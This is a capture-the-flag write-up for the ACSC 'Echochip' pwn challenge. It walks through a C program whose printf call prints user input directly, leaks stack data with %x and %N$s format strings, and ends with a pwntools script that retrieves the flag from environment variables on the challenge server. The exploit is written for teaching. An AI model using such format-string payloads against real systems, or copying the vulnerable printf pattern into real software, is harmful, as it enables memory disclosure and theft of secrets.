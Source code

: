 ```yaml
---
author: Aryt3
pubDatetime: 2025-05-01T19:00:00Z
title: ACSC Echochip Writeup
slug: acsc-echochip
featured: true
draft: false
tags:
  - ACSC
  - pwn
description:
  A Writeup and Walkthrough of the ACSC Echochip challenge.
---
```



# Echochip

## Description
```
Soundboards are so 2076, get the new Kiroshi Echochip to add a cool echo, that will help establish your authority.
```

## Provided Files
```
- Echochip.zip
```

## Writeup

Starting off, I inspected the provided `c` program. <br/>
```c
// gcc Echochip.c -Wl,-z,relro,-z,now -Wall -o Echochip

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define MIN(x, y) (x < y ? x : y)
char flag[0x100] = "dach2025{NOT_THE_FLAG}";

void setup(void) {
  char *flag_env = getenv("FLAG");
  if (flag_env == NULL)
    return;

  strncpy(flag, flag_env, sizeof(flag) - 1);
}

int main(int argc, char *argv[]) {
  char echo[0x200] = {0};
  char input[0x100] = {0};
  char *input_start, *echo_start;
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setup();
  printf("Please input the message to echo: \n");
  fgets(input, sizeof(input), stdin);

  input_start = input;
  echo_start = echo;
  for (int i = 0; i < sizeof(input) && input[i] != 0; ++i) {
    if (input[i] == ' ' || input[i] == '\n') {
      int echo_len = MIN(3, &input[i] - input_start);
      memcpy(echo_start, input_start, &input[i] - input_start);
      echo_start += &input[i] - input_start;
      memcpy(echo_start, &input[i - echo_len], echo_len + 1);
      echo_start += echo_len + 1;
      input_start = &input[i + 1];
    }
  }

  printf(echo);
}
```

The thing that instantly caught my eye was the `printf` function which actually takes our direct input without any checks. <br/>
Knowing this, we can try for a `string formatting vulnerability`. <br/>
```sh
$ ./share/Echochip 
Please input the message to echo: 
%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
a78252e.e1ae3080.a78252e.0.0.e1ae34b8.28.0.27.e1ae30a7.e1ae31aa.252e7825.2e78252e.78252e78
```

As we can I see in the output, we are leaking data from the stack. <br/>
The thing that interests me the most is that the flag is being read from an `env-var`. <br/>
`char *flag_env = getenv("FLAG");` this indicates that the string should be loaded into memory at some point. <br/>

Knowing this, we can actually check for strings by leaking the stack `position by position` using a `string-formatter`. <br/>
```sh
$ python3 bruteforce.py
-----
147  
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin7$s

148  
HOSTNAME=a8415c1597e18$s

149  
FLAG=dach2025{NOT_THE_FLAG}9$s

150  
HOME=/home/ctf0$s

151  
SOCAT_PID=19811$s

152  
SOCAT_PPID=12$s

153  
SOCAT_VERSION=1.7.4.13$s

154  
SOCAT_SOCKADDR=172.19.0.24$s

155  
SOCAT_SOCKPORT=50005$s

156  
SOCAT_PEERADDR=172.19.0.16$s

157  
SOCAT_PEERPORT=562547$s
-----
``` 

There we can see all `environment-variables` as well as the `test-flag`. <br/>
These are loaded into the memory of the binary and that's the reason we can leak them. <br/>
With all this information we can now exploit it on the server and get the actual flag. <br/>

```py
from pwn import *

context.log_level = 'error'

for i in range(145,160):
    payload = f"%{i}$s".encode()

    p = remote('port.dyn.acsc.land', 34241)
    p.sendlineafter(b'Please input the message to echo:', payload)

    res = p.recvall().decode('latin-1')

    if 'dach' in res:
        print(res)

    p.close()
```

Executing the script reveals the flag which concludes this writeup. <br/>
```sh
$ python3 offset.py 
[*] '/home/aryt3/Hacking/CTFs/acsc_qualy_2025/Echochip/share/Echochip'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
  
FLAG=dach2025{d0es_th1s_m4ke_my_v01ce_s0und_deep3r_rimycu6vrt3m0nne}2$s